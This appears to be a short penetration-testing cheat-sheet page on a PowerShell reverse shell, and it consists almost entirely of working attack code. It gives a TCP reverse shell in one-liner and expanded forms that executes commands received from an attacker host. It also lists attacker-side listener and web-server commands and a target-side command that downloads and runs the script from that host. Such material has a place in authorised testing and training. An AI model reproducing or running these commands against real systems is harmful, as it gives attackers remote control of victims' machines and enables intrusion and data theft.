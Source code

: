 # Reverse Shell

## Powershell

### $ATTACKER

{% code title="rshell.ps1 \(one-liner\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("$ATTACKER",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

{% code title="rshell.ps1 \(expanded\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("$LHOST",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "# ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()};
$client.Close()
```
{% endcode %}

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
sudo ufw allow from $TARGET proto tcp to any port 80,443
```

### $TARGET

```bash
powershell IEX (New-Object Net.WebClient).DownloadString("http://$ATTACKER/rshell.ps1");
```

